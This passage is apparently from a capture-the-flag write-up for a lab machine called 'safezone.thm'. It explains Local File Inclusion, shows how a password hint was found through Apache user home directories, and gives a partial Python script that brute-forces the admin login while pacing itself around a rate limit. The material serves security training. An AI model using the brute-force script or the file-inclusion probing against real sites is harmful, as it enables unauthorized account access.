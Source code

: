 And the latter says:

![image](https://user-images.githubusercontent.com/73745039/113361305-9c577000-9343-11eb-9e83-3d8764248703.png)

This is all very interesting. 

Immediately I checked my cookie though it wasn't anything I could immediately manipulate. The wording on the News page makes me think we have to find LFI somewhere...


I open the source code on the detail page and well well well:
![image](https://user-images.githubusercontent.com/73745039/113361552-31f2ff80-9344-11eb-9163-354f5c5e6219.png)

We have a GET parameter, and a LFI one no less!

For those who do not know, LFI stands for Local File Inclusion, and it's when you use a server's own resources to access files you shouldn't have access to. For example, if a page displays an image through a parameter like page=/files/images/dog.png, you could experiment with changing it to something like page=/files/secret_file.txt and it would display it to you, even if it is something you shouldn't have access to, because it is tecnically the server itself having access to it and displaying it to you.

Now, I got stuck here for a long while trying to use the parameter "page" to get access to /home/files/pass.txt to no avail. I doubled up on enumeration and after a long while I eventually found that Apache has a setting where it includes home directories in it's file system, accessible through ~/[Name of User]. Trying http://safezone.thm/~files/pass.txt got us exactly what we wanted!

```
Admin password hint :-
admin__admin
" __ means two numbers are there , this hint is enough I think :) "
```

So now we know we have a username for sure named "Admin" and a password admin__admin with two numbers between them.

You can try to enumerate them by hand but dear lord that'd be tedious. I opted to do a python script instead.

But wait! After 3 attempts, the server tosses out this damn line!
"To many failed login attempts. Please login after 60 sec"
So I present to you, ladies and gentlemen: the world's slowest fuzzer!

```
#!/usr/bin/python3

import requests
import time
import re

teststop = 0

for x in range(10):
	for y in range(10):
		trypass = "admin"+str(x)+str(y)+"admin"
		
		datafuzz = {"username":'Admin',"password":trypass,"submit":'Submit'}
		response = requests.post('http://safezone.thm/index.php', data=datafuzz)
		found = re.findall('Please enter valid login details', response.text)
		found2 = re.findall('To many failed', response.text)
		print(trypass + ":", end="" )
		if found != [] or found2 != []:
			print("Not found")
		else:
			print("found!")
			print("Finishing.")
			quit();
		teststop = teststop+1
		if teststop > 2:
```